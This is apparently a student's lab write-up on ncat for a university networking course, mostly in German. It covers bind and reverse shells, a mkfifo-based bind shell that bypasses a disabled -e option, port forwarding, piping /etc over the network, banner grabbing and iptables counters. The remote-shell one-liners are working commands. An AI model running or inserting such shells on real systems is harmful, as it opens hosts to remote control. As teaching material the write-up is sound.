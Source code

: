 # Übung 4
### 1.1 Create a bind-shell on the host netcat is in server (listening) mode. A bind-shell allows netcat clients to use a server-side shell (execute commands on the server).
**Setup Host:**
- ncat -lvp 65000 -e /bin/bash
**l:** listen
**v:** verbose: gibt auch Fehlermeldungen oder wenn die Verbindung aufgebaut wird aus.
**p:** on port ...
Host horcht auf Port 65000 und führt die Shell nach ausführung des Befehls aus.

**Setup Client:**
- ncat localhost 65000
Client verbindet sich mit Host auf Port 65000 und kann Befehle auf dessen Shell ausführen.

### 1.2 Create a reverse-shell. A reverse shell is the counterpart of a bind-shell, and allows the server (!) to execute commands on the client.
**Setup Host:**
- ncat -lvp 65000
Host wartet auf Client Verbindung, wenn Verbindung steht, kann Host Befehle auf Client Shell ausführen.

**Setup Client**
- ncat -c /bin/bash localhost 65000
-  c: führt erhaltenen Befehl in bin/bash aus
Verbindet sich zu Host.

### 1.3 Can these shells be used when server and client are using different OSs?
Eine Reverse Shell ist möglich, wenn der Host ein Windows System ist und der Client ein Linux System, da die bash auf Linux ausgeführt wird.
Umgekehrt nicht möglich, da Windows keine Bash besitzt.

### 1.4 Can (1.1) and/or (1.2) used with UDP?
ncat besitzt eine -u option, welche es ermöglicht UDP anstatt von TCP zu verwenden.
Es müssen jedoch Host und Client die Option aktiviert haben.
z.B.:
**Host**
- ncat -lvup 65000 -e /bin/bash

**Client**
- ncat -u localhot 65000

Dies funktioniert bei reverse shell jedoch nicht -> Befehle werden nicht mehr ausgeführt.

### 2. Construct server and client netcat command-lines which resemble simple a text-chat.
### — Chat must be accessible to multiple clients simultaneously
### — All clients must receive all messages from all other clients
### — All traffic must be encrypted at all times
### — Chat server must only allow predefined IPs
### — Server must keep a central chat log

**Setup Host:**
- ncat \--chat \--allow localhost \--ssl -o output.txt -lvp 65000
- chat: startet simplem ncat Chat Server
- allow localhost: IP Adresse des Server um sich darauf zu verbinden (hier localhost)
- ssl: Verbinden und "listen" mit SSL
- o: gibt die Daten von der Session (Chat Nachrichten, Errors, Connect messages etc) in file aus (hier output.txt).

**Mit Client verbinden**
- ncat \--ssl localhost 65000

### 3.What does the following command-line do?
#### **while $(ncat -lp 8080 -c 'ncat localhost 80'); do true; done**

Es wird durch die while Schleife kontinuirlich auf dem Port 8080 gehört. Wenn Anfragen auf diesen Port eintreffen werden diese an den Port 80 (HTTP Port) weiter geleitet.

### 4. Due to security awareness, some netcat versions prevent using the -e option (route input data to process stdin). However, there is a work-around for establishing bind-shells nevertheless (server-side)
**mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | ncat -lp 1234 > /tmp/f**
### Deconstruct this command and explain exactly what each element is doing.

- **mkfifo /tmp/f**
Erzeugt eine FIFO ("First In First Out Queue") im Verzeichnis /tmp mit dem namen f

- **cat /tmp/f | /bin/sh -i 2>&1 | ncat -lp 1234 > /tmp/f**
**cat /tmp/f | /bin/sh -i 2>&1** liest aus der Warteschlange aus und leitet das ausgelesene weiter an Shell die mit –i (interactive: User kann mit Shell interagieren und Befehle können ausgeführt werden) ausgeführt wird.
**ncat -lp 1234 > /tmp/f** es wird durch ncat auf dem port 1234 gelistened. Alle erhaltenen Anfragen werden in die Warteschlange f geschrieben.

### 5. Use ncat to fetch your e-mails from your FH mail account via IMAP. See https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol for how the IMAP protocol works.

Bei der Verwendung von IMAPS wird die Verbindung zum Server bereits während des Verbindungsaufbaus durch SSL verschlüsselt. Damit der Server das erkennt, muss ein anderer Port verwendet werden. Dafür wurde der **Port 993** reserviert.

- ncat imaps.fh-ooe.at 993 \--ssl -v
- a login s1510237001 password
- a select inbox
- a fetch 274 full

### 6. Use the ncat and tar commands to copy the entire contents of your /etc/ directory from your computer to one of your colleagues. The file transfer must be encrypted and compressed. The compression must be done on-the-fly and must not consume additional disk space on the sending client. The receiver must decompress on-the-fly to a predefined sub-directory in his/her home directory. Both sender and client must only issue one single command-line (Enter key only pressed once).

Dieses Beispiel wurde lokal getestet, da wird keine Verbindung von zwei verschiedenen VMs zusammengebracht haben.

**Host:**
- ncat \--ssl -lvp 65000 | tar zx -C ./

-C um einen Speicherpfad anzugeben


**Client:**
- sudo tar zcf - "/etc" | ncat localhost 65000 \--ssl

### 7. Create a very simple shell-script, which iterates over URLs of web-servers in a given text-file (one per line), and use ncat to grab the webserver’s banner (Hint: use the HTTP HEAD command). Grab the Server: line from each response, and store them in a dedicated text-file on your system.

siehe bannerScript.sh + dessen output file "banner.txt"

**Which webserver software is used most often, and on what sites? Which ones are used least often?**
Most often: 4 x Apache on:
- orf.at,
- diepresse.com,
- heise.de,
- bild.de

Least often:
- **shield** on golem.de
- **Gatling/0.16** on blog.fefe.de
- **Microsoft-HTTPAPI/2.0** on derstandard.at


### 8.
```
[dabinder@David ~]$ sudo iptables -I INPUT 1 --source localhost -j ACCEPT
[sudo] password for dabinder:
[dabinder@David ~]$ sudo iptables -I OUTPUT 1 --destination 10.0.2.15 -j ACCEPT
[dabinder@David ~]$ sudo iptables -Z
[dabinder@David ~]$ nmap -p- 10.0.2.15

Starting Nmap 7.60 ( https://nmap.org ) at 2017-11-21 18:05 CET
Nmap scan report for 10.0.2.15
Host is up (0.000058s latency).
All 65535 scanned ports on 10.0.2.15 are closed

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
[dabinder@David ~]$ sudo iptables -vn -L
Chain INPUT (policy ACCEPT 131K packets, 6554K bytes)
 pkts bytes target     prot opt in     out     source               destination         
    0     0 ACCEPT     all  --  *      *       127.0.0.1            0.0.0.0/0           
    0     0 ACCEPT     all  --  *      *       127.0.0.1            0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy ACCEPT 8 packets, 513 bytes)
 pkts bytes target     prot opt in     out     source               destination         
 131K 6554K ACCEPT     all  --  *      *       0.0.0.0/0            10.0.2.15     
```

### 8.1 How many packets have been sent?
**131K packets**
### 8.2 How many traffic has been generated (bytes)?
**6554K bytes**